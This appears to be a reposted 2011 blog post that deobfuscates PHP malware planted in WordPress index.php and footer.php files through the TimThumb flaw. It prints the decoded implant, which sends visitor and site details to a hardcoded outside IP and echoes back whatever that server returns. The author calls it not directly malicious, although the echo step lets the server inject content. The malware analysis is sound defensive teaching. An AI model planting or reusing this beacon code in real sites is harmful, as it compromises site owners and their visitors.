 ```yaml
---
id: 333
title: Pulling apart a WordPress hack, unobfuscating its code
published: true
publishedDate: 2011-11-19 03:17:00Z
lastModifiedDate: 2011-11-19 03:17:00Z
categories:
- PHP
- Programming
- WordPress

---
```


# This post is originally from Daniel15's Blog at https://d.sb/2011/11/pulling-apart-wordpress-hack

---

Over the past few months, there have been a few vulnerabilies in PHP scripts utilised by various WordPress themes. One of the largest hacks was back in August, when a Remote File Inclusion (RFI) vulnerability was [found in TimThumb](http://wpcandy.com/reports/timthumb-security-vulnerability-discovered), a thumbnail generation script used by a lot of WordPress themes. This vulnerability allowed attackers to run **any** PHP code on vulnerable sites. As a result of this, [thousands of sites were hacked](http://www.theregister.co.uk/2011/11/02/wordpress_mass_compromise/).

The most common result of your site being hacked through like this is having some sort of malicious code added to your PHP files. This is often invisible, and people don't notice that their site has malicious code lurking in it until much later. However, sometimes the hacked code does have errors in it. One particular payload is being referred to as the "['Cannot redeclare' hack](http://digwp.com/2011/11/clean-up-cannot-redeclare-hack/)", as it causes an error like the following to appear in your site's footer:

> Fatal error: Cannot redeclare _765258526()
> (previously declared in /path/to/www/wp-content/themes/THEME/footer.php(12) 
> : eval()'d code:1) in /path/to/www/index.php(18) 
> : eval()'d code on line 1

This particular hack affects all the index.php and footer.php files in your WordPress installation. If you are affected by this hack and open any index.php or footer.php file, you'll see code that starts like this: ([the full code is on Pastebin](http://pastebin.com/8CCJz45k))

```php
<?php eval(gzuncompress(base64_decode('eF5Tcffxd3L0CY5Wj...
```

## Decoding the Code
If you're this far, I assume you're a PHP developer (or at least know the basics of PHP). The malicious code above is actually highly obfuscated PHP code, which means that the actual intent of the code is hidden and it looks like jibberish. The **eval** statement runs arbitrary PHP code, so this line of code will basically base64 decode and then run the big block of code. So... what does the code actually do? Obviously we can't tell with it in its current state. It does take a bit of effort, but this code can be "decoded" relatively easy. Obfuscation is not one-way, it can always be undone. While we can't get back the original variable names, we *can* see what functions the code is executing.

The first step in decoding this code is replacing all instances of **eval** with **echo**, and then running the script. This should output the code being executed, instead of actually executing it. After doing this, I ended up with something like the following:

```php
$GLOBALS['_2143977049_']=Array();
function _765258526($i){$a=Array();return base64_decode($a[$i]);}

eval(gzuncompress(base64_decode('eF5Tcffxd3L0CY5WjzcyMjM...
```
Great, another layer of gzipped/base64'd obfuscation. This technique is common with obfuscated code like this. Multiple layers of obfuscation makes it harder for someone to decode the code, as it requires more effort. I guess the "bad guys" think that people will get tired of trying to unobfuscate the code, and give up, or something like that. When a case like this is encountered, keep replacing **eval** with **echo** and re-running the script, until there's no eval statements left. After decoding all the eval'd code and formatting the resulting code, I [ended up with this](http://pastebin.com/sc0J6FB5). While there's readable code there now, it's still obfuscated.

Once you're this far, if you look closely at the code, you'll notice that a lot of it is encoded using base64. The next step to unobfuscating thid code is to decode all base64-encoded text. That is, find all instances of base64_decode(...) and replace it with the base64 decoded version. Once I did that, I ended up with this:

```php
<?php 
$GLOBALS['_226432454_']=Array();
function _1618533527($i)
{
        return '91.196.216.64';
}
 
$ip=_1618533527(0);
$GLOBALS['_1203443956_'] = Array('urlencode');
function _1847265367($i)
{
        $a=Array('http://','/btt.php?ip=','REMOTE_ADDR','&host=','HTTP_HOST','&ua=','HTTP_USER_AGENT','&ref=','HTTP_REFERER');
        return $a[$i];
}
$url = _1847265367(0) .$ip ._1847265367(1) .$_SERVER[_1847265367(2)] ._1847265367(3) .$_SERVER[_1847265367(4)] ._1847265367(5) .$GLOBALS['_1203443956_'][0]($_SERVER[_1847265367(6)]) ._1847265367(7) .$_SERVER[_1847265367(8)];
$GLOBALS['_399629645_']=Array('function_exists', 'curl_init', 'curl_setopt', 'curl_setopt', 'curl_setopt', 'curl_exec', 'curl_close', 'file_get_contents');
function _393632915($i)
{
    return 'curl_version';
}
if ($GLOBALS['_399629645_'][0](_393632915(0))) 
{
        $ch=$GLOBALS['_399629645_'][1]($url);
        $GLOBALS['_399629645_'][2]($ch,CURLOPT_RETURNTRANSFER,true);
        $GLOBALS['_399629645_'][3]($ch,CURLOPT_HEADER,round(0));
        $GLOBALS['_399629645_'][4]($ch,CURLOPT_TIMEOUT,round(0+0.75+0.75+0.75+0.75));
        $re=$GLOBALS['_399629645_'][5]($ch);
        $GLOBALS['_399629645_'][6]($ch);
}
else
{
        $re=$GLOBALS['_399629645_'][7]($url);  
}
echo $re;
?>
```

Now you simply need to go through the code and "execute it in your head". Follow the execution path of the code, and see which variables are used where. There's some usage of arrays to disguise certain variables. What I did was first replaced the two function calls (_1618533527 and _1847265367), and then replaced the array usages (_1203443956_, _399629645_ and _399629645_). Substitute the variables in the places they're used, and the code should be fully obfuscated. Once fully unobfuscated, the code came down to the following:

```php
<?php
$url = 'http://91.196.216.64/btt.php?ip=' . $_SERVER['REMOTE_ADDR'] . '&host=' . $_SERVER['HTTP_HOST'] . '&ua=' . urlencode($_SERVER['HTTP_USER_AGENT']) . '&ref=' . $_SERVER['HTTP_REFERER'];

if (function_exists('curl_version'))
{
	$ch = curl_init($url);
	curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
	curl_setopt($ch, CURLOPT_HEADER, 0);
	curl_setopt($ch, CURLOPT_TIMEOUT, 3);
	$re = curl_exec($ch);
	curl_close($ch);
}
else
{
	$re = file_get_contents($url);
}
echo $re;
```
So, what it's actually doing is sending a request to **91.196.216.64** (a server located in Russia), telling it your site's hostname, your user agent (what browser you're using), and the referer (how you got to the page). This is not directly malicious (this code can't directly do anything bad), which makes it interesting. My theory is that the developer of the worm is using this to create a list of all vulnerable sites, to use them for further hacks in the near future.

So, that's it. Hopefully this post wasn't too boring (and perhaps you even learnt how to unobfuscate code like this). As more people learn how to unobfuscate code like this, I suspect that the "hackers" will keep getting smarter and devising more clever code obfuscation techniques. Until then, finding out what the code actually does is relatively quick and easy, as I've demonstrated here.

Until next time,   
 — Daniel
